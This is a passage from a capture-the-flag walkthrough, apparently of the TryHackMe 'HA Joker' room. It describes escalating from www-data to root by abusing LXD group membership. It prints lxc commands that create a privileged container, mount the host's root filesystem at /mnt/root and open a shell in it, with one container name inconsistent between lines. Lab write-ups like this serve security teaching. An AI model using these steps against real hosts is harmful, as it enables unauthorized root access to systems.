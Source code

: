 ![netcat reverse](/assets/images/THM/2020-08-13-ha-joker-ctf/25.png)

Simple like counting from 1 to 10. We are now a www-data with lxd GID.

### Task 1-16 to 1-17: Enumerate LXD

Make sure you read the LXD [article](https://linuxcontainers.org/lxd/introduction/) before proceeding to the escalation. If you are done, check the image ALIAS with the following command

```
lxc image list
```

![image](/assets/images/THM/2020-08-13-ha-joker-ctf/26.png)

### Task1-18 to 1-19: Capture the flag

By knowing the Alias name, it should be enough to mount the /root folder into the container and make ourself as the root user. Checking the following [article](https://www.hackingarticles.in/lxd-privilege-escalation/) gives us an idea of how to mount the /root file on /mnt.

```
lxc init myalpine joker -c security.privileged=true
lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
lxc start joker
lxc exec ignite /bin/sh
```

![root](/assets/images/THM/2020-08-13-ha-joker-ctf/27.png)
